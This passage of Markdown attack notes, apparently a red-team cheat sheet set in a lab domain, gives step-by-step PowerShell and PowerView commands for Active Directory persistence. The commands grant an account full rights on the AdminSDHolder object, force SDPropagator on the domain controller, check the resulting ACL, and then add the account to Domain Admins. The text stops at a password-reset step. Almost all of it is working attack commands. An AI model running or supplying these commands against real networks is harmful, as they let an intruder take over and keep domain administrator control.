 > > > > > add-objectACL -TargetADSprefix 'CN=AdminSDHolder,CN=System'-PrincipalSamAccountName <YOUR account> -Rights All -Verbose
> > > > > ```
> > > >
> > > > ***ACTIVE Directory***
> > > >
> > > > > :one:`Import-Module Microsoft.ActiveDirectory.Management.dll`
> > > > >
> > > > > :two:`Import-Module ActiveDirectory.psd1`
> > > > >
> > > > > :three: `Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Pricipal <accountNAme> -Verbose `
> > > > >
> > > > > :four: **Run Propagator**
> > > > >
> > > > > > ```
> > > > > > $sess = New-PSSession -ComputerName DomainDC
> > > > > > 
> > > > > > Invoke-Command -FilePAth .\Invoke-SDPropagator.ps1 -Session $sess
> > > > > > 
> > > > > > Enter-PSSEssion -Session $sess
> > > > > > 
> > > > > > Invoke-SDPropagator -showProgress -timeoutMinutes 1
> > > > > > ```
> > > > >
> > > > > :five: Validate ACL 
> > > > >
> > > > > > ```
> > > > > > . .\Powerview.ps1
> > > > > > 
> > > > > > Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match '<accountNAme>'}
> > > > > > ```
> > > > >
> > > > > :six: Abuse it
> > > > >
> > > > > > **Add Member to Group** 
> > > > > >
> > > > > > > **AD Module**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Add-ADGroupMember -Identity 'Domain Admins' -Members <AccountName>
> > > > > > > > ```
> > > > > >
> > > > > > > **PowerView_dev**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Add-DomainGroupMember -Identity 'Domain Admins' -Members <AccountName> -Verbose
> > > > > > > > ```
> > > > > >
> > > > > > > **Verify**
> > > > > > >
> > > > > > > > ```
> > > > > > > > Get-ADUser -Identity <AccountNAme>
> > > > > > > > 
> > > > > > > > Get-ADGroupMember -Identity 'domain admins
> > > > > > > > ```
> > > > > >
> > > > > > **Reset Account Password**
> > > > > >
> > > > > > >  **AD Module**
> > > > > > >
> > > > > > > > ```